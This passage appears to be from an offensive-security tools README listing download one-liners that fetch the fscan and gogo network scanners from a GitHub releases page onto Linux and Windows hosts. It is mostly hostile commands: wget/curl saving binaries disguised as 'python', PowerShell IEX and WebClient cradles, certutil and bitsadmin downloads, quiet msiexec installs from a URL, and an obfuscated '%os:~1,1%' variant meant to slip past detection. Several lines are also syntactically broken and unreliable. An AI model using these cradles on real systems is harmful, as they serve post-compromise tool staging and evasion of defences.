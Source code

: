 ```
msiexec /q /i https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03_upx.exe
msiexec /q /%os:~1,1%https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan_win03_upx.exe
```

## gogo
Linux amd

```
64
wget https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_linux_amd64 -O python
curl https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_linux_amd64 -O python

32
wget https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_linux_386 -O python
curl https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_linux_386 -O python
```


Linux arm

```
64
wget https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_linux_arm64 -O python
curl https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_linux_arm64 -O python

32
wget https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_linux_arm -O python
curl https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_linux_arm -O python
```


Windows amd

```
64
powershell.exe -Command "Invoke-WebRequest -Uri https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_amd64.exe -OutFile exploit.exe"
powershell.exe -Command "IEX(New-Object Net.WebClient).DownloadFile('https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_amd64.exe -OutFile exploit.exe', exploit.exe)"
certutil.exe -urlcache -split -f https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_amd64.exe -OutFile exploit.exe exploit.exe
copy \\github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan.exe -OutFile exploit.exe exploit.exe
bitsadmin /rawreturn /transfer down "https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_amd64.exe" c:\\exploit.exe
msiexec /q /i https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_amd64.exe
msiexec /q /%os:~1,1%https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_amd64.exe

32
powershell.exe -Command "Invoke-WebRequest -Uri https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_386.exe -OutFile exploit.exe"
powershell.exe -Command "IEX(New-Object Net.WebClient).DownloadFile('https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_386.exe -OutFile exploit.exe', exploit.exe)"
certutil.exe -urlcache -split -f https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_386.exe -OutFile exploit.exe exploit.exe
copy \\github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan.exe -OutFile exploit.exe exploit.exe
```
